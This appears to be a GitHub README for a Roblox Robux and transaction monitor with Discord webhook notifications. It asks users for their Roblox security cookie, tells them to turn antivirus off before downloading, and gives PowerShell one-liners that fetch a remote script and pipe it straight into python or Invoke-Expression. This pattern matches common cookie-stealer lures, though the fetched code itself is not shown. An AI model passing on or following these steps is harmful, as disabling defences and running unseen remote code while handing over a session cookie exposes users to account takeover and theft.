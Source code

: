 # Roblox Transaction Monitor
![image](https://github.com/user-attachments/assets/16669dc8-7a44-4c9d-8f60-48a9d46cdb08)

A GUI application to monitor Roblox transactions and Robux balance changes in real-time. Get Discord notifications when your Roblox economy data changes.

## Features

- [x] Real time monitoring of Roblox transactions
- [x] Robux balance tracking
- [x] Discord webhook integration for notifications
- [x] User friendly GUI interface
- [x] Customizable monitoring intervals
- [x] Detailed logging system

## Also just a Quick Fix

- [x] Turn Anti virus off
- [x] then download the app
- [x] after that turn the anti virus back on and you're done

## TODO

- [x] Dropdown menu like past day month year total

## Configuration

The application requires the following configuration:

1. Roblox Security Cookie
2. Discord Webhook URL
3. Discord Emoji ID for Robux display
4. Discord Emoji Name
5. Check Interval (update what ever time you want to set to)
6. Total Checks (Transaction/Balance) Like (Day Month Year)

## Usage

Run the application by executing this command

```
powershell -Command "(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/main.py').Content | python"
```
or
```
Invoke-Expression (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/main.ps1").Content
```

## License

This project is licensed under the MIT License - see the LICENSE file for details.
